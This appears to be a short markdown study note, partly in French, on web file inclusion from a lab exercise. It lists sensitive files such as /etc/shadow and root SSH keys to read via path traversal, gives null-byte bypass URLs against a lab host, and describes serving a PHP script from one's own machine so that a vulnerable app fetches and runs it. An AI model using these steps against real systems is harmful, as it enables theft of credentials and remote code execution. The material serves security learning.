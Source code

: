 # **File Inclusion**

---

## **Introduction**

![](images/fileinclusion.png)

---

## **Path Traversal**

![](images/directory.png)

| Location                    | Desc                                                                                                                                                              |
| --------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| /etc/issue                  | contains a message or system identification to be printed before the login prompt                                                                                 |
| /etc/profile                | controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived |
| /proc/version               | specifies the version of the Linux kernel                                                                                                                         |
| /etc/passwd                 | has all registered user that has access to a system                                                                                                               |
| /etc/shadow                 | contains information about the system's users' passwords                                                                                                          |
| /root/.bash_history         | contains the history commands for root user                                                                                                                       |
| /var/log/dmessage           | contains global system messages, including the messages that are logged during system startup                                                                     |
| /var/mail/root              | all emails for root user                                                                                                                                          |
| /root/.ssh/id_rsa           | Private SSH keys for a root or any known valid user on the server                                                                                                 |
| /var/log/apache2/access.log | the accessed requests for Apache  webserver                                                                                                                       |
| C:\boot.ini                 | contains the boot options for computers with BIOS firmware                                                                                                        |

## **%00 Byte**

Using null bytes is an injection technique where URL-encoded representation such as %00 or 0x00 in hex with user-supplied data to terminate strings.

You could think of it as trying to trick the web app into disregarding whatever comes after the Null Byte.

There are two possible methods to bypass the filter.

First, by using the NullByte %00 or the current directory trick at the end of the filtered keyword /.

The exploit will be similar to <http://webapp.thm/index.php?lang=/etc/passwd/>. We could also use <http://webapp.thm/index.php?lang=/etc/passwd%00>.

---

## **Remote File Inclusion - RFI**

![](images/RFI.png)

pour faire ca facilement creer un mini server http avec python

```bash
python -m http.server 8000
```

Ensuite creer le script qu'on veut faire tourner en .php .js .cequetuveux

ensuite rentrer dans l'URL apres file :

```bash
http://[Ton_IP]:8000/Desktop/hello.php
```
